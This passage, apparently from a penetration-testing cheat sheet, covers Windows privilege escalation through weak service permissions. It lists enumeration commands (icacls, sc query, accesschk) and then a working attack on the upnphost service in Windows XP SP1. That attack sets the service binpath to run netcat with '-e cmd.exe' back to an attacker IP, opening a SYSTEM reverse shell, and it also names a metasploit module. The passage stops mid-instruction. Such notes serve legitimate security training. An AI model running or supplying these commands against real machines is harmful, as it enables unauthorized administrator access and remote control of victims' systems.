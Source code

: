 $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

If wmic is not available we can use sc.exe:

$ sc query state= all | findstr "SERVICE\_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i

type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY\_PATH\_NAME" >> path.txt

You can also manually check each service using cacls:

$ cacls "C:\path\to\file.exe"

If you don't have access to vmic, you can do:

$ sc qc upnphost

Windows XP SP1 is known to be vulnerable to EoP in \*\*upnphost\*\*. You get Administrator with:

$ sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR\_IP 1234 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""

sc qc upnphost

If it fails because of a missing dependency, run the following:

$ sc config SSDPSRV start= auto

net start SSDPSRV

net start upnphost

Or remove the dependency:

$ sc config upnphost depend= ""

Using meterpreter:

\> exploit/windows/local/service\_permissions

If wmic and sc is not available, you can use accesschk. For Windows XP, version 5.2 of accesschk is needed:

https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe

$ accesschk.exe -uwcqv "Authenticated Users" \* /accepteula

$ accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula

$ accesschk.exe -qdws Users C:\Windows\

Then query the service using Windows sc:

$ sc qc <vulnerable service name>

Then change the binpath to execute your own commands (restart of the service will most likely be needed):

